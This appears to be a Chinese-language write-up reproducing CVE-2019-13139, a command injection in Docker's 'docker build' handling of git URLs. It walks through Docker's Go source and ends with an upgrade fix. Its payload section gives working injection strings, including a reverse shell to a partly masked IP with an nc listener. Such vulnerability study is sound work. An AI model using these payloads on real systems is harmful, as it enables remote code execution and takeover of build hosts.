

# Docker_CVE-2019-13139

## 环境

1. Docker-ce 18.06.3

   [docker仓库](https://download.docker.com/)

   yum install https://download.docker.com/linux/centos/7/x86_64/stable/Packages/docker-ce-18.06.3.ce-3.el7.x86_64.rpm

2. Git  1.8.3.1

   [安装特定版本Git](https://www.cnblogs.com/rstyro/articles/10817855.html)

   Git 版本应该不影响此漏洞的复现

## 原理

```go
func Clone(remoteURL string) (string, error) { // 克隆仓库
	repo, err := parseRemoteURL(remoteURL)	// 解析远程URL

	if err != nil {
		return "", err
	}

	return cloneGitRepo(repo)				// 真正开始克隆仓库
}

func cloneGitRepo(repo gitRepo) (checkoutDir string, err error) {
	fetch := fetchArgs(repo.remote, repo.ref) // 获取gitRepo值

	root, err := ioutil.TempDir("", "docker-build-git") // root 等价于 git
	if err != nil {
		return "", err
	}

	defer func() {
		if err != nil {
			os.RemoveAll(root)
		}
	}()

	if out, err := gitWithinDir(root, "init"); err != nil {	// git init
		return "", errors.Wrapf(err, "failed to init repo at %s: %s", root, out)
	}

	// Add origin remote for compatibility with previous implementation that
	// used "git clone" and also to make sure local refs are created for branches
	if out, err := gitWithinDir(root, "remote", "add", "origin", repo.remote); err != nil { // git remote add origin repo.remote
		return "", errors.Wrapf(err, "failed add origin repo at %s: %s", repo.remote, out)
	}

	if output, err := gitWithinDir(root, fetch...); err != nil { // git fetch origin repo.remote 详见下面的函数
		return "", errors.Wrapf(err, "error fetching: %s", output)
	}

	checkoutDir, err = checkoutGit(root, repo.ref, repo.subdir)
	if err != nil {
		return "", err
	}

	cmd := exec.Command("git", "submodule", "update", "--init", "--recursive", "--depth=1")
	cmd.Dir = root
	output, err := cmd.CombinedOutput()
	if err != nil {
		return "", errors.Wrapf(err, "error initializing submodules: %s", output)
	}

	return checkoutDir, nil
}
```

上面一部分函数，不存在任何问题。

```go
func gitWithinDir(dir string, args ...string) ([]byte, error) {  // 返回执行指令后的二进制数据
	a := []string{"--work-tree", dir, "--git-dir", filepath.Join(dir, ".git")}
	return git(append(a, args...)...)
}

func git(args ...string) ([]byte, error) { // 执行指令
	return exec.Command("git", args...).CombinedOutput()
}
```

这里也不存在问题，只是简单的执行了指令

```go
func parseRemoteURL(remoteURL string) (gitRepo, error) { // 解析远程URL
	repo := gitRepo{}

	if !isGitTransport(remoteURL) {						// 检测是否是https协议
		remoteURL = "https://" + remoteURL
	}

	var fragment string
	if strings.HasPrefix(remoteURL, "git@") {			// 检测是否有git@,这是git ssh的特有标志
		// git@.. is not an URL, so cannot be parsed as URL
		parts := strings.SplitN(remoteURL, "#", 2)		// 将URL按照#分为两部分

		repo.remote = parts[0]							// 提取第一部分URL
		if len(parts) == 2 {
			fragment = parts[1]							// 提取第二部分URL
		}
		repo.ref, repo.subdir = getRefAndSubdir(fragment)	// 拆分第二部分URL
	} else {
		u, err := url.Parse(remoteURL)
		if err != nil {
			return repo, err
		}

		repo.ref, repo.subdir = getRefAndSubdir(u.Fragment)
		u.Fragment = ""
		repo.remote = u.String()
	}
	return repo, nil
}

func getRefAndSubdir(fragment string) (ref string, subdir string) { // 拆分URL
    refAndDir := strings.SplitN(fragment, ":", 2)			// 按:拆分URL
	ref = "master"
	if len(refAndDir[0]) != 0 {
		ref = refAndDir[0]
	}
	if len(refAndDir) > 1 && len(refAndDir[1]) != 0 {
		subdir = refAndDir[1]
	}
	return
}
```

从这里可以看出，函数只对git@进行了处理。

当我们的URL为`git@a.com#abc:`时，执行的git命令就成了git fetch origin "abc"

所以URL对于我们是可控的，具体的可控点是函数中的ref和subdir两个参数。

顺着思路往下理，这个时候应该找到一个git fetch命令的可以执行命令的参数。

[--upload-pack](https://git-scm.com/docs/git-fetch#Documentation/git-fetch.txt---upload-packltupload-packgt)

```
--upload-pack <upload-pack>
When given, and the repository to fetch from is handled by git fetch-pack, --exec=<upload-pack> is passed to the command to specify non-default path for the command run on the other end.
```

`--upload-pack` 在另一端非指定默认路径执行命令

**os/exec**

`execv()` 在执行时如果保护空格，将被解析为引号。

```shell
echo 1
"echo 1"
```

当`git@`不存在`:`时将作为本地路径解析。当作本地路径解析时，`--upload-pack`便可以以`git fetch-pack`执行命令。

## Payload

```dockerfile
docker build "git@g.com/a/b#--upload-pack=sleep 30;:"
```

执行命令为:

```shell
git init
git remote add origin git@g.com/a/b
git fetch origin "--upload-pack=sleep 30; git@g.com/a/b"
```

需要注意的是`:`应该加上;否则`git@g.com/a/b`将作为第二个参数传给sleep

## 测试

**攻击端**

```shell
nc -lvp 5000
```

**受害端**

```shell
docker build "git@g.com#--upload-pack=bash -i >&/dev/tcp/121.*.*.183/5000 0>&1;:"
```

**攻击端**



**受害端**


## 修复方案

在staaldraad文中提到这个漏洞是在18.09.4之前发现的，但实际上18.09.3无法复现。在18.09.3复现时，强制要求更新两个模块

1. ce-cli
2. containerd.io

猜测Docker官方在收到此漏洞之后在18.09.3上追加了补丁。

升级到最新的docker版本


## 相关文章

https://staaldraad.github.io/post/2019-07-16-cve-2019-13139-docker-build/
